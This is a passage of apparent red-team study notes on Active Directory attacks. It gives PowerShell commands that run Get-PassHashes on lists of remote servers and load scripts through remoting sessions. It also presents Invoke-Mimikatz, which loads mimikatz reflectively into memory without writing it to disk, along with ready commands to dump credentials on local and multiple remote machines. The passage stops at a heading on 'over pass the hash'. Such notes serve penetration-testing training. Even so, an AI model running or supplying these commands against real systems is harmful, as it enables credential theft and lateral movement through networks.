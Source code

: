 ### <span style="color:#F1C232">3. In this case, we are passing Arguments. Keep in mind that only positional arguments could be passed this way</span>

```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list of servers>) -
ArgumentList
```

### <span style="color:#F1C232">4. Directly load function on the remote machines using FilePath</span>

```powershell
$sess = New-PSSession -Computername <computer-name>
Invoke-Command -FilePath "C:\temp\hello.ps1" -Session $sess
Enter-PSSession -Session $sess

[scorp.star.light.local]:PS> hello
Hello from the function
```

# <span style="color:lightblue">Invoke-Mimikatz</span>

* The script could be used to dump credentials, tickets and more using mimikatz with PowerShell without dropping the mimikatz exe to disk.
* It is very useful for passing and replaying hashes, tickets and for many exciting Active Directory attacks.
* Using the code from ReflectivePEInjection, mimikatz is loaded reflectively into the memory. All the functions of mimikatz could be used from this script.
* The script needs administrative privileges for dumping credentials from local machine. Many attacks need specific privileges which are covered while discussing that attack. 

### <span style="color:#F1C232">1. Dump credentials on a local machine</span>

```powershell
Invoke-Mimikatz -DumpCreds
```

### <span style="color:#F1C232">2. Dump credentials on multiple remote machines</span>

```powershell
Invoke-Mimikatz -DumpCreds -ComputerName @("sys1","sys2")
```

> Invoke-Mimikatz uses PowerShell remoting cmdlet **Invoke-Command** to do above.
{: .prompt-info }

### <span style="color:#F1C232">3. "Over pass the hash" generate tokens from hashes</span>
 